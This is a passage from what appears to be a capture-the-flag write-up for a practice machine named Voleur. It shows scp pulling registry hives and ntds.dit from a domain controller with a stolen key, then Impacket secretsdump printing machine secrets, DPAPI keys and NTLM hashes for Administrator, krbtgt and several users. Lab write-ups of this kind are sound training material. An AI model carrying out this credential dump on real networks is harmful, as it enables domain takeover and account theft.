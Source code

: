 Lets download them.

```jsx
➜  Backups scp -i id_rsa -P 2222 'svc_backup@dc.Voleur.htb:/mnt/c/it/Third-Line Support/Backups/registry/SYSTEM' .

SYSTEM                                                                                                                     100%   18MB   1.0MB/s   00:17    
➜  Backups scp -i id_rsa -P 2222 'svc_backup@dc.Voleur.htb:/mnt/c/it/Third-Line Support/Backups/registry/SECURITY' .

SECURITY                                                                                                                   100%   32KB 130.3KB/s   00:00    
➜  Backups scp -i id_rsa -P 2222 'svc_backup@dc.Voleur.htb:/mnt/c/it/Third-Line Support/Backups/Active Directory/ntds.dit' .

ntds.dit  
```

Lets dump everything.

## Full-Dump

```bash
➜  Backups secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
/usr/local/bin/secretsdump.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'secretsdump.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:759d6c7b27b4c7c4feda8909bc656985b457ea8d7cee9e0be67971bcb648008804103df46ed40750e8d3be1a84b89be42a27e7c0e2d0f6437f8b3044e840735f37ba5359abae5fca8fe78959b667cd5a68f2a569b657ee43f9931e2fff61f9a6f2e239e384ec65e9e64e72c503bd86371ac800eb66d67f1bed955b3cf4fe7c46fca764fb98f5be358b62a9b02057f0eb5a17c1d67170dda9514d11f065accac76de1ccdb1dae5ead8aa58c639b69217c4287f3228a746b4e8fd56aea32e2e8172fbc19d2c8d8b16fc56b469d7b7b94db5cc967b9ea9d76cc7883ff2c854f76918562baacad873958a7964082c58287e2
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x5d117895b83add68c59c7c48bb6db5923519f436
dpapi_userkey:0xdce451c1fdc323ee07272945e3e0013d5a07d1c3
[*] NL$KM 
 0000   06 6A DC 3B AE F7 34 91  73 0F 6C E0 55 FE A3 FF   .j.;..4.s.l.U...
 0010   30 31 90 0A E7 C6 12 01  08 5A D0 1E A5 BB D2 37   01.......Z.....7
 0020   61 C3 FA 0D AF C9 94 4A  01 75 53 04 46 66 0A AC   a......J.uS.Ff..
 0030   D8 99 1F D3 BE 53 0C CF  6E 2A 4E 74 F2 E9 F2 EB   .....S..n*Nt....
NL$KM:066adc3baef73491730f6ce055fea3ff3031900ae7c61201085ad01ea5bbd23761c3fa0dafc9944a0175530446660aacd8991fd3be530ccf6e2a4e74f2e9f2eb
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c641148f9173d663be744e323c:::
voleur.htb\ryan.naylor:1103:aad3b435b51404eeaad3b435b51404ee:3988a78c5a072b0a84065a809976ef16:::
voleur.htb\marie.bryant:1104:aad3b435b51404eeaad3b435b51404ee:53978ec648d3670b1b83dd0b5052d5f8:::
voleur.htb\lacey.miller:1105:aad3b435b51404eeaad3b435b51404ee:2ecfe5b9b7e1aa2df942dc108f749dd3:::
voleur.htb\svc_ldap:1106:aad3b435b51404eeaad3b435b51404ee:0493398c124f7af8c1184f9dd80c1307:::
```